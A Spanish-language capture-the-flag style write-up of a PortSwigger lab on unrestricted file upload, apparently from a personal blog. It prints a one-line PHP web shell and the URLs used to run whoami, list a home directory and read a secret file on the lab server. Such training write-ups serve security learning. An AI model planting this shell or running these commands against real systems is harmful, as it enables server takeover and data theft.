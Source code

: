 ```yaml
---
title: "Remote code execution via web shell upload"
description: "Laboratorio de Portswigger sobre File Upload"
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload
tags:
  - File Upload
  - Remote code execution via web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que no realiza `ninguna validación` en los `archivos` que los usuarios suben antes de almacenarlos en el `sistema` de `archivos` del `servidor`. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego `enviar` este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-1/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-1/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-1/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-1/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo subimos

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Lab-1/image_5.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Lab-1/image_6.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un archivo llamado `secret`

![](/assets/img/File-Upload-Lab-1/image_7.png)

`Leemos` la `información` de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-1/image_8.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Lab-1/image_9.png)
